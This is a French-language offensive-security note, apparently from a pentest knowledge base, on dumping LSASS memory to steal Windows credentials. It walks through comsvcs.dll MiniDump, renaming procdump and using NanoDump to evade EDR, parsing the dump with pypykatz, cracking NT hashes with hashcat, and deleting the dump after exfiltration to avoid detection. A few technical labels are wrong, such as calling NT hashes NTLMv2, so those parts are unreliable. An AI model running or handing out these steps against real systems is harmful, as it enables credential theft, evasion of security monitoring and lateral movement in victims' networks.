

## Prérequis (Privilèges SeDebugPrivilege)

[!danger] Nécessite des privilèges administrateur local (SeDebugPrivilege)
L'interaction avec le processus **LSASS** nécessite le privilège `SeDebugPrivilege`. Bien que ce privilège soit présent par défaut pour les administrateurs, il est souvent restreint par les politiques **UAC** ou les solutions **EDR/AV**.

Vérification des privilèges actuels dans PowerShell :
```powershell
whoami /priv
```

Si le privilège est absent, une élévation de privilèges via **Windows Privilege Escalation** est nécessaire avant toute tentative de dump.

## Risques de stabilité système (crash du processus LSASS)

[!warning] Risque élevé de crash du processus LSASS provoquant un redémarrage forcé de la machine
Le processus **LSASS** est critique pour la sécurité de Windows. Une mauvaise manipulation ou une interruption lors de la lecture de la mémoire peut provoquer un **BSOD (Blue Screen of Death)**, entraînant un redémarrage immédiat de la cible. Il est recommandé de tester la stabilité sur une machine de laboratoire avant toute exécution en environnement de production.

## Méthodes pour dumper LSASS

### Identification du processus
Avant toute extraction, il est nécessaire de localiser le PID du processus **lsass.exe**.

Depuis une invite de commande :
```cmd
tasklist /svc
```

Depuis PowerShell :
```powershell
Get-Process lsass
```

### Techniques d'extraction
L'utilisation de **comsvcs.dll** via **rundll32** est une méthode native courante, bien que fortement surveillée.

```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

### Techniques d'évasion EDR/AV (Procdump, SharpDump, NanoDump)

[!danger] Détection quasi-certaine par les solutions EDR modernes avec la méthode comsvcs.dll
Les EDR surveillent activement les appels API vers **LSASS**. Pour contourner ces protections, des outils spécialisés sont utilisés :

*   **Procdump** : Utilitaire Microsoft Sysinternals. Il doit être renommé (ex: `procdump.exe` -> `proc.exe`) pour éviter les détections basées sur le nom de fichier.
    ```cmd
    proc.exe -ma <PID> lsass.dmp
    ```
*   **SharpDump** : Version C# de l'outil de dump, permettant une exécution en mémoire via **Mimikatz** ou des loaders personnalisés.
*   **NanoDump** : Outil conçu pour générer des dumps de manière furtive en utilisant des appels système directs (Direct Syscalls) pour éviter les hooks EDR.
    ```cmd
    nanodump.exe --write-dump lsass.dmp
    ```

## Extraction des identifiants avec Pypykatz

**Pypykatz** permet l'analyse hors ligne des fichiers de dump, simulant les fonctionnalités de **Mimikatz** sans nécessiter d'interaction directe avec la mémoire vive de la cible.

```bash
pypykatz lsa minidump /chemin/vers/lsass.dmp
```

## Analyse des résultats

### MSV (Microsoft Security Validator)
Gère l'authentification locale. Les données extraites incluent les hachages **NTLMv2**.

```plaintext
Username: bob
NT: 64f12cddaa88057e06a81b54e73b949b
SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
```

### WDIGEST
Protocole historique pouvant stocker les mots de passe en clair si la configuration système le permet.

### Kerberos
Extraction de **TGT** et tickets de service, essentiels pour les attaques de type **Pass-the-Hash** ou **Overpass-the-Hash** au sein d'un environnement **Active Directory**.

### DPAPI (Data Protection API)
Extraction des clés maîtresses permettant de déchiffrer les secrets stockés par les applications (navigateurs, clients RDP, Outlook).

## Craquage des hachages avec Hashcat

Une fois les hachages **NTLMv2** extraits, le craquage hors ligne est effectué via **hashcat**.

```bash
sudo hashcat -m 1000 <NT-Hash> /usr/share/wordlists/rockyou.txt
```

## Nettoyage des traces (suppression du dump)

[!tip] Importance de la suppression immédiate du fichier .dmp après exfiltration
La présence d'un fichier `.dmp` sur le disque est un indicateur de compromission (IoC) majeur. Une fois le fichier exfiltré, il doit être supprimé immédiatement :

```cmd
del /f /q C:\lsass.dmp
```

## Résumé final

Les techniques présentées permettent d'extraire des identifiants depuis la mémoire. Ces méthodes sont indissociables d'une bonne compréhension de **Mimikatz** et des mécanismes d'authentification **Active Directory**.

> [!note] Références
> Ces techniques s'inscrivent dans une stratégie de **Windows Privilege Escalation** et sont étroitement liées aux concepts de **Kerberos**.
```